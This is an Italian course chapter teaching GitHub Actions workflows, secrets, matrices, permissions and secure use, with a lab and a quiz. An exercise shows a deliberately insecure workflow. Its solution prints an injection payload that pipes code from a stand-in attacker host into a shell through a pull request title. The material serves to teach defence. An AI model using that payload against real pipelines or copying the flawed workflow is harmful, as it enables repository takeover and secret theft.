

# 7.2 GitHub Actions

!!! obiettivi "Obiettivi"
    - Conoscere i concetti di GitHub Actions: workflow, eventi, job, step, azioni, runner.
    - Scrivere un workflow con variabili, segreti, matrici e dipendenze tra job.
    - Usare in sicurezza le azioni di terze parti e i permessi del `GITHUB_TOKEN`.
    - Leggere i log e diagnosticare un workflow che fallisce.

## I concetti

**GitHub Actions** è il sistema di automazione integrato in GitHub. È gratuito per i repository pubblici sui runner
standard e include una quota di minuti per quelli privati.



| Concetto | Cos'è |
|---|---|
| **Workflow** | un file YAML in `.github/workflows/` che descrive un'automazione |
| **Evento** (`on`) | ciò che avvia il workflow: `push`, `pull_request`, `schedule` (cron), `workflow_dispatch` (avvio manuale), `release`, e molti altri |
| **Job** | un insieme di step eseguiti sullo **stesso runner**; i job sono **paralleli** salvo dipendenze con `needs` |
| **Step** | un comando (`run`) o un'azione (`uses`) |
| **Azione** | un componente riutilizzabile, per esempio `actions/checkout` per scaricare il codice |
| **Runner** | la macchina che esegue il job: ospitata da GitHub (`ubuntu-latest`, `windows-latest`, `macos-latest`) o tua (*self-hosted*) |

Ogni job parte da una macchina **pulita**: i file prodotti da un job non sono visibili agli altri, a meno di passarli
come **artefatti** (`actions/upload-artifact` e `actions/download-artifact`) o come **output**.

## Il primo workflow

```yaml title=".github/workflows/saluti.yml"
name: Saluti

on:
  push:
  workflow_dispatch:

jobs:
  saluta:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v7

      - name: Informazioni sul contesto
        run: |
          echo "Evento: ${{ github.event_name }}"
          echo "Ramo: ${{ github.ref_name }}"
          echo "Commit: ${{ github.sha }}"
          echo "Autore: ${{ github.actor }}"
          ls -la
```

- `${{ ... }}` è un'**espressione**: viene sostituita prima di eseguire lo step. I **contesti** (`github`, `env`,
  `secrets`, `vars`, `matrix`, `needs`, `steps`, `runner`) contengono le informazioni dell'esecuzione.
- `run: |` esegue uno script Bash su più righe, con `set -e` implicito: il primo comando che fallisce ferma lo step.

## Variabili, segreti, output

```yaml
env:                                  # variabili per tutto il workflow
  REGIONE: eu-south-1

jobs:
  esempio:
    runs-on: ubuntu-latest
    env:
      LIVELLO: debug                  # variabili del job
    steps:
      - name: Usa variabili e segreti
        env:
          TOKEN: ${{ secrets.TOKEN_API }}     # segreto del repository
          AMBIENTE: ${{ vars.AMBIENTE }}      # variabile (non segreta) del repository
        run: echo "Regione $REGIONE, ambiente $AMBIENTE, token lungo ${#TOKEN} caratteri"

      - name: Produce un output
        id: versione
        run: echo "valore=1.2.0" >> "$GITHUB_OUTPUT"

      - name: Usa l'output
        run: echo "Versione ${{ steps.versione.outputs.valore }}"
```

- **Segreti** e **variabili** si creano in *Settings → Secrets and variables → Actions*, per repository, per
  organizzazione o per **ambiente**. I segreti sono mascherati nei log (`***`).
- Passa i segreti agli script con `env:` e non scriverli direttamente dentro `run:` con `${{ }}`.
- I segreti **non** sono disponibili ai workflow avviati da pull request provenienti da fork.

## Matrici

Una **matrice** esegue lo stesso job con combinazioni diverse di parametri, in parallelo:

```yaml
jobs:
  test:
    runs-on: ${{ matrix.os }}
    strategy:
      fail-fast: false
      matrix:
        os: [ubuntu-latest, ubuntu-24.04-arm]
        python: ["3.12", "3.13"]
    steps:
      - uses: actions/checkout@v7
      - uses: actions/setup-python@v7
        with:
          python-version: ${{ matrix.python }}
      - run: python --version
```

Quattro job: due sistemi per due versioni di Python.

## Condizioni, dipendenze, concorrenza

```yaml
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - run: echo "test"

  pubblica:
    needs: test                                   # parte solo se test riesce
    if: github.ref == 'refs/heads/main'           # e solo sul ramo main
    runs-on: ubuntu-latest
    steps:
      - run: echo "pubblico"

concurrency:
  group: ci-${{ github.ref }}       # una sola esecuzione per ramo
  cancel-in-progress: true          # le esecuzioni vecchie vengono annullate
```

Funzioni utili nelle condizioni: `success()`, `failure()` (per esempio uno step che invia una notifica solo se
qualcosa è fallito), `always()`, `cancelled()`, `contains()`, `startsWith()`.

## Sicurezza

!!! danger "Un workflow è codice che gira con le tue credenziali"
    Chi può modificare un workflow può leggere i segreti e agire con i permessi del repository. Trattalo con la stessa
    cura del codice di produzione.

- **Permessi minimi del `GITHUB_TOKEN`**: ogni esecuzione riceve un token temporaneo per agire sul repository.
  Dichiara sempre `permissions:` a livello di workflow con il minimo (`contents: read`) e allarga solo nei job che lo
  richiedono (`packages: write` per pubblicare su GHCR, `id-token: write` per OIDC, `pull-requests: write` per
  commentare).
- **Azioni di terze parti**: un'azione è codice altrui che gira nella tua pipeline. Usa azioni affidabili (quelle di
  GitHub, dei produttori come Docker, AWS, Google, HashiCorp) e **fissale**: un tag di versione (`@v7`) è comodo ma
  può essere spostato da chi controlla il repository dell'azione; lo **SHA completo del commit**
  (`uses: actions/checkout@<40 caratteri>  # v7.0.1`) è immutabile. Le organizzazioni attente alla sicurezza usano
  gli SHA e uno strumento come Dependabot per aggiornarli.
- **Iniezione nelle espressioni**: non usare dati controllati da altri (titolo di una PR, nome di un ramo) dentro
  `run:` con `${{ }}`; passali come variabili d'ambiente.
- **`pull_request_target`** gira con i segreti anche per le PR dai fork: evitalo, salvo casi che conosci bene.
- **Dependabot** (*Settings → Code security*) può aggiornare automaticamente le versioni delle azioni e delle
  dipendenze aprendo pull request.

## Leggere i log e fare debug

- Nella scheda **Actions** del repository ogni esecuzione mostra i job, gli step e i log; puoi **rieseguire** i job
  falliti.
- Per log più dettagliati, rilancia con **Enable debug logging** oppure crea la variabile di repository
  `ACTIONS_STEP_DEBUG` con valore `true`.
- **`actionlint`** controlla i workflow prima del push: sintassi, espressioni, errori comuni negli script.

## Laboratorio

!!! laboratorio "Laboratorio · I primi workflow"
    In un repository di prova su GitHub (pubblico, per usare i minuti gratuiti senza limiti):

    1. Crea `.github/workflows/saluti.yml` come sopra, fai push e osserva l'esecuzione nella scheda **Actions**.
    2. Aggiungi un segreto `TOKEN_API` e uno step che stampa `echo "$TOKEN"`: cosa compare nel log?
    3. Aggiungi un job `matrice` con Ubuntu su Intel/AMD e su ARM e due versioni di Python.
    4. Aggiungi un job `riepilogo` con `needs: [saluta, matrice]` che scrive nel **riepilogo** dell'esecuzione:
       `echo "### Tutto ok :rocket:" >> "$GITHUB_STEP_SUMMARY"`.
    5. Fai fallire apposta uno step (`exit 1`) e aggiungi uno step con `if: failure()` che stampa un messaggio.
    6. Installa `actionlint` nel Dev Container (`pipx install actionlint-py`) e lancialo sul workflow.

??? success "Spiegazione"
    2. Il valore compare come `***`: GitHub maschera i segreti nei log. Non è una garanzia assoluta (un segreto
       trasformato, per esempio codificato in base64, non verrebbe riconosciuto): non stampare mai i segreti.
    3. Quattro job paralleli; con `fail-fast: false` uno che fallisce non annulla gli altri.
    4. Il riepilogo in Markdown compare nella pagina dell'esecuzione: utile per risultati di test e piani Terraform.
    5. Lo step con `if: failure()` è l'unico che viene eseguito dopo il fallimento.

## Esercizi

!!! esercizio "Esercizio · Trova i problemi"
    ```yaml
    on: pull_request_target
    permissions: write-all
    jobs:
      saluta:
        runs-on: ubuntu-latest
        steps:
          - uses: qualcuno/azione-utile@main
          - run: echo "Titolo: ${{ github.event.pull_request.title }}"
    ```

??? success "Soluzione"
    1. `pull_request_target` esegue con i segreti e un token con permessi di scrittura anche per le PR dai fork.
    2. `permissions: write-all`: permessi massimi. Serve il minimo, per esempio `contents: read`.
    3. Un'azione sconosciuta fissata al ramo `main`: chiunque controlli quel repository può cambiare il codice che
       gira nella tua pipeline. Usa azioni affidabili, fissate a uno SHA.
    4. Il titolo della PR (controllato dall'autore) è inserito direttamente nello script: un titolo come
       `"; curl http://attaccante | sh; echo "` verrebbe eseguito. Passalo con `env:` e usa `"$TITOLO"`.

## Verifica rapida

<script type="application/json" class="quiz-data">
{"questions":[
 {"q":"Dove si trovano i workflow di GitHub Actions?","options":["Nella cartella .github/workflows del repository","Nelle impostazioni del repository","In un file Jenkinsfile","Nella wiki"],"answer":[0],"explanation":"Sono file YAML versionati con il codice."},
 {"q":"Come fai partire un job solo dopo il successo di un altro?","options":["Con needs","Con if: always()","Mettendolo dopo nel file","Con concurrency"],"answer":[0],"explanation":"Senza needs i job sono paralleli."},
 {"q":"I file creati in un job sono visibili in un altro job dello stesso workflow?","options":["Sì, sempre","No, ogni job parte da una macchina pulita: servono artefatti o output","Solo con lo stesso runner","Solo se i job girano su ARM"],"answer":[1],"explanation":"actions/upload-artifact e download-artifact."},
 {"q":"Quali sono buone pratiche di sicurezza nei workflow?","options":["Dichiarare permissions con il minimo necessario","Fissare le azioni di terze parti a uno SHA di commit","Usare permissions: write-all","Stampare i segreti per verificarli","Usare pull_request_target per tutte le PR"],"answer":[0,1],"explanation":"Il GITHUB_TOKEN deve avere solo i permessi necessari."},
 {"q":"Come passi un valore da uno step a quelli successivi?","options":["Scrivendo nome=valore nel file $GITHUB_OUTPUT e leggendolo con steps.ID.outputs.nome","Con una variabile Bash","Non si può","Con un segreto"],"answer":[0],"explanation":"Lo step deve avere un id."},
 {"q":"Cosa fa una matrice?","options":["Esegue lo stesso job con combinazioni diverse di parametri, in parallelo","Crea una tabella nel riepilogo","Cifra i segreti","Ordina i job"],"answer":[0],"explanation":"Per esempio più sistemi operativi e versioni del linguaggio."}
]}
</script>

## Fonti

- [GitHub Docs: Understanding GitHub Actions](https://docs.github.com/en/actions/get-started/understand-github-actions)
- [GitHub Docs: Workflow syntax](https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-syntax)
- [GitHub Docs: Contexts and expressions](https://docs.github.com/en/actions/reference/workflows-and-actions/contexts)
- [GitHub Docs: Using secrets](https://docs.github.com/en/actions/how-tos/write-workflows/choose-what-workflows-do/use-secrets) e [variables](https://docs.github.com/en/actions/how-tos/write-workflows/choose-what-workflows-do/use-variables)
- [GitHub Docs: Security hardening for GitHub Actions](https://docs.github.com/en/actions/reference/security/secure-use)
- [GitHub Docs: Automatic token authentication (GITHUB_TOKEN)](https://docs.github.com/en/actions/security-for-github-actions/security-guides/automatic-token-authentication)
- [actionlint](https://github.com/rhysd/actionlint)
